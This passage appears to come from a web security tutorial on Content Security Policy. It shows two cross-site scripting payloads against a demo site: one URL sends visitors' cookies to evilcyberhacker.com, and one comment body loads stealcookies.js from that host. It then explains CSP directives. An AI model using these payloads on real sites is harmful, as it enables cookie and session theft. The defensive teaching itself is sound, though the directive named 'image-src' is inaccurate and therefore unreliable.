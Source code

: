 Which means you can send the following link to a user, and they will be redirected to evilcyberhacker.com and
send along their cookies in the URL, for the attacker to find in their server logs.

```
http://hack-yourself-first.com/Search?searchTerm=');location.href='http://evilcyberhacker.com?cookies='%2BencodeURIComponent(document.cookie);//'
```

The only reason this attack is possible is because the browser loads and executes the inline script
tag. Another XSS attack could be adding a comment with this as the comment body:

```html
<script src="http://evilcyberhacker.com/stealcookies.js" /> Wow! What a cool website.
```

Then when a user visits the page, the browser will automatically load and run `stealcookies.js`,
which doesn't sound pleasant.

Next up, we'll see how we can prevent these sort of attacks with a Content Security Policy.


## How will it make my site more secure?

So you're probably thinking that you can just sanitise your input and output and then you're not
vulnerable to XSS attacks, meaning you don't need to worry about a CSP. And you would be almost right!
Even if your site is entirely rock-solid and it's impossible for someone to trick a browser
viewing your site into loading an untrusted script, there are still issues that a CSP will solve:

1. Once your site gets big enough, it's hard to ensure that every single input/output is sanitised
   correctly. Both the above examples must be sanitised in different ways, because they're loaded in
   different contexts (javascript vs. html). __The larger your site gets, the more likely it is that
   you'll miss something, leaving your users vulnerable__.
2. Your users will have all sorts of dodgey browser extensions installed, from free VPN's such as
   Hola to extensions that allow you to stream torrent videos while they download. These extensions
   have almost unlimited access to the DOM.

A properly implemented CSP is essentially a blanket ban on not only XSS attacks, but any attack that
relies on the browser loading untrusted assets. In order for an attacker to compromise your CSP
protected site, they must first gain access to the approved sources you list in your policy.

Yes, you should still write secure code and not leave XSS flaws everywhere. But adding a good CSP
closes off extra avenues of attack (such as dodgy browser extensions) and also covers your back if
you slip up and don't sanitise some output.


### CSP basics

A CSP header contains a list of "directives", with each directive holding a list trusted sources.
Some of the common directives are:

- `script-src`  - where we can load javascript from
- `style-src`   - where we can load CSS from
- `image-src`   - where we can load images from
- `font-src`    - where we can load fonts from
- `connect-src` - where scripts can load urls from (ie. Fetch, XMLHttpRequest, etc)
- `default-src` - applied to every directive not explicitly specified
- `block-all-mixed-content`   - prevents assets being loaded over HTTP
- `upgrade-insecure-requests` - forces assets to be loaded over HTTPS
- `report-uri` - a location to report all policy violations
